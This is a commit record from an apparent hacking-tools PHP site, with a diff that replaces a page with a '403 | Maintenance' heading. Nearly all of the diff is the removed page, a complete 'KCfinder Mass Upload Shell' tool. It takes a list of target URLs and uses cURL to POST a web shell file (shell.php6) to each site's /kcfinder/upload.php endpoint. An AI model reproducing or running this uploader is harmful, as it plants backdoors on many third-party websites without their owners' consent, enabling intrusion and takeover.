

Before and after one commit to X-MarsHall/Valorant, a PHP site: page /tools/kcfinder.php in a window 1280 px wide. Shown: the top 441 px of the page, without its empty margins (316-964 px from the left). Run offline with PHP 8.4, Linux system fonts and the light colour scheme.

Commit message:
Update kcfinder.php

```diff
--- a/tools/kcfinder.php
+++ b/tools/kcfinder.php
@@ -15,66 +15,7 @@
 
 <div class="container-fluid">
 <br><br><br>
-    <h1>KCfinder Mass Upload Shell</h1>
- <br>
-<center>
-    <form>
-  <div class="form-group">
-    <label for="exampleInputEmail1">Url Target :</label><br>
-    <textarea cols="55" id="ContactForm1_contact-form-email-message" name="url" placeholder="http://target.co/(patch)" rows="6"></textarea>
-
-    <br><br>
-  <button type="submit"  class="btn btn-primary">Submit</button>
-</form>
-</center>
-
-
-<?php
-
-if(isset($_GET['url'])){
-
-    $url = $_GET['url'];
-    $lis = explode("\n", $url);
-
-    foreach($lis as $ht){
-
-$target = "$ht/kcfinder/upload.php";
-$shell = 'shell.php6';
-$file = new CURLFile(realpath($shell));
-$up = array (
-        'file' => $file
-              );
-
-    $ch = curl_init();
-    curl_setopt($ch, CURLOPT_URL, $target);
-    curl_setopt($ch, CURLOPT_POST, 1);
-    curl_setopt($ch, CURLOPT_HEADER, 0);
-    curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
-    curl_setopt($ch, CURLOPT_USERAGENT, "Mozilla/4.0 (compatible;)");
-    curl_setopt($ch, CURLOPT_HTTPHEADER,array('Content-Type: multipart/form-data'));
-    curl_setopt($ch, CURLOPT_FRESH_CONNECT, 1);
-    curl_setopt($ch, CURLOPT_FORBID_REUSE, 1);
-    curl_setopt($ch, CURLOPT_TIMEOUT, 100);
-    curl_setopt($ch, CURLOPT_POSTFIELDS, $up);
-
-    $result = curl_exec ($ch);
-
-    if ($result === FALSE) {
-
-        echo '<font color="#FF0000" Gagal Upload ' . $shell .  " " . curl_error($ch);
-        curl_close ($ch);
-
-    }else{
-        curl_close ($ch);
-        echo '<font color="#008000"> [+] ' .$ht.$result. '</font>';
-        echo "\n\n";
-
-    }
-
-    }
-}
-?>
-
+    <h1>403 | Maintenance</h1>
 
 
 </div>
```
